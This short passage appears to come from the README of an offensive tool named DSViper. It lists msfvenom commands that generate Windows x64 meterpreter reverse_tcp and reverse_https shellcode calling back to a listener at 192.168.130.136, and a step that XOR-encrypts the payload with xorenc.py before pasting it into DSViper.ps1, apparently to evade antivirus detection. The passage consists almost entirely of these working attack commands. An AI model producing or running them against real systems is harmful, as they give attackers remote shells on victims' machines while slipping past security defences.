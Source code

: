 # ✔️ **only x64 payloads work**
>example payloads are
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.130.136 LPORT=444 -f raw > payload2.bin #recommended
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.130.136 LPORT=444 -f raw > payload2.bin
python3 xorenc.py payload2.bin #copy paste the key and payload in the DSViper.ps1 file
```

